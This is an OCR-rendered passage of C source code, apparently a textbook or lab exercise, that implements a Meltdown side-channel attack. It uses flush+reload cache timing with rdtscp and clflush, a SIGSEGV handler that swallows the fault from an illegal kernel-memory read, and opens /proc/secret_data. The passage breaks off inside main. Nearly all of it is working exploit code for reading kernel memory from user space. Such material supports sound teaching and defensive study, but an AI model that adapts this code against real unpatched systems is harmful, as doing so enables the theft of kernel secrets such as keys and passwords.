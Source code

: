 ```c
void flushSideChannel()
{
    int i;

    /* Write to array to bring it to RAM to prevent COW */
    for (i = 0; i < 256; i++) {
        array[i * 4096 + DELTA] = 1;
    }
    /* Flush the values of the array from cache */
    for (i = 0; i < 256; i++) {
       _mm_clflush(&array[i * 4096 + DELTA]);
    }
}

void reloadSideChannel()
{
    unsigned int junk = 0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;
    int i;
    for (i = 0; i < 256; i++) {
        addr = &array[i * 4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD) {
            printf("array[%d * 4096 + %d] is in cache!\n", i, DELTA);
            printf("The secret is %d.\n", i);
        }
    }
}

void meltdown(unsigned long kernel_data_addr)
{
    char kernel_data = 0;
    /* The following statemnet will cause an exception */
    kernel_data = *(char *)kernel_data_addr;
    // array[7 * 4096 + DELTA] += 1;
    array[kernel_data * 4096 + DELTA] += 1;
}

/* Signal handler*/
static sigjmp_buf jbuf;
static void catch_segv()
{
    siglongjmp(jbuf, 1);
}

int main()
{
    /* Register a signal handler */
    signal(SIGSEGV, catch_segv);

    /* Flush the probing array */
    flushSideChannel();

    /* Textbook Section 13.5.2: We need to get the kernel secret data cached */
    /* First, open the /proc/secret_data virtual file */
    int fd = open("/proc/secret_data", O_RDONLY);
    if (fd < 0) {
        perror("open");
        return -1;
    }
```
